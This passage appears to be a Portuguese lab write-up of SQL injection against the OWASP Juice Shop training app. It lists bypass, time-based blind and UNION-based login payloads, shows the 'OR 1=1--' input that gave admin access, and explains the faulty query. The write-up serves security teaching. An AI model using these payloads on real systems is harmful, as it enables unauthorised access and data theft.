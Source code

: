 - 2. Condição sempre verdadeira (bypass):
```
Username: ' OR '1'='1
Password: ' OR '1'='1
```

- 3. Time-based (teste de blind SQLi):
```
Username: admin' AND SLEEP(5) --
Password: qualquer_coisa
```

- 4. UNION-based (extração de dados — depende da query original):
```
Username: ' UNION SELECT 1,'admin','hashed_password' --
Password: qualquer_coisa
```

---

### ✅ Teste executado (simples e efetivo)
- No Juice Shop, realizamos o teste mais simples (bypass) que já é suficiente para autenticar como administrador.

**Entrada usada no campo “Username / Email”:**
```
admin@juice-sh.op' OR 1=1--
```
**Password:** qualquer valor

<p align="center">
  <img width="397" height="562" alt="image" src="https://github.com/user-attachments/assets/aae66f3d-069c-4394-8e91-bcc69309a8c5" />
</p>
Imagens do fluxo (exemplos de screenshots inseridos no relatório original)

Resultado: conseguimos acesso com privilégios de administrador.
<p align="center">
  <img width="284" height="264" alt="image" src="https://github.com/user-attachments/assets/23f56174-0af5-496a-94d7-779f7a4dd172" />
</p>
<p align="center">
  <img width="1600" height="900" alt="image" src="https://github.com/user-attachments/assets/f53213b7-b3e4-467e-8390-973416cb9d7f" />
</p>

---

### 💡 Explicação técnica (por que funciona)
O payload `OR 1=1 --` transforma a condição de verificação do usuário em algo sempre verdadeiro. Se a aplicação constrói a query de autenticação sem uso de parâmetros, por exemplo:
```sql
SELECT * FROM users WHERE email = 'admin@juice-sh.op' OR 1=1 --' AND password = '...';
```
o `OR 1=1` faz com que a cláusula WHERE seja satisfeita independentemente da senha. O `--` comenta o restante da query, ignorando a verificação de senha.
